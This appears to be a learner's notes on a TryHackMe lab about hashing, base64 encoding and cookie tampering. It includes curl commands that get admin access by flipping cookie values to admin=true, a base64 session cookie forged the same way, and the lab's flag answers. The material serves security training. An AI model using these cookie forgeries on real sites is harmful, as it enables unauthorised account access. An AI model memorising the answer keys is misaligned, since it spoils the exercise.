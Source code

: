 You can see from the above table that the hash output from the same input string can significantly differ depending on the hash method in use. Even though the hash is irreversible, the same output is produced every time, which is helpful for us as services such as https://crackstation.net/ keep databases of billions of hashes and their original strings.

Encoding
Encoding is similar to hashing in that it creates what would seem to be a random string of text, but in fact, the encoding is reversible. So it begs the question, what is the point in encoding? Encoding allows us to convert binary data into human-readable text that can be easily and safely transmitted over mediums that only support plain text ASCII characters.

Common encoding types are base32 which converts binary data to the characters A-Z and 2-7, and base64 which converts using the characters a-z, A-Z, 0-9,+, / and the equals sign for padding.


Take the below data as an example which is set by the web server upon logging in:

Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/
This string base64 decoded has the value of {"id":1,"admin": false} we can then encode this back to base64 encoded again but instead setting the admin value to true, which now gives us admin access.

```
┌──(kali㉿kali)-[/usr/share/seclists/Usernames/Names]
└─$ curl http://10.10.235.218/cookie-test
Not Logged In                                                                                           
┌──(kali㉿kali)-[/usr/share/seclists/Usernames/Names]
└─$ curl -H "Cookie: logged_in=true; admin=false" http://10.10.235.218/cookie-test
Logged In As A User                                                                                           
┌──(kali㉿kali)-[/usr/share/seclists/Usernames/Names]
└─$ curl -H "Cookie: logged_in=true; admin=true" http://10.10.235.218/cookie-test
Logged In As An Admin - THM{COOKIE_TAMPERING}  
```
What is the flag from changing the plain text cookie values?
*THM{COOKIE_TAMPERING}*

What is the value of the md5 hash 3b2a1053e3270077456a79192070aa78 ?
*463729* (crackstation)

What is the base64 decoded value of VEhNe0JBU0U2NF9FTkNPRElOR30= ?
*THM{BASE64_ENCODING}* (cyberchef)


Encode the following value using base64 {"id":1,"admin":true}
*eyJpZCI6MSwiYWRtaW4iOnRydWV9*

[[Subdomain Enumeration]]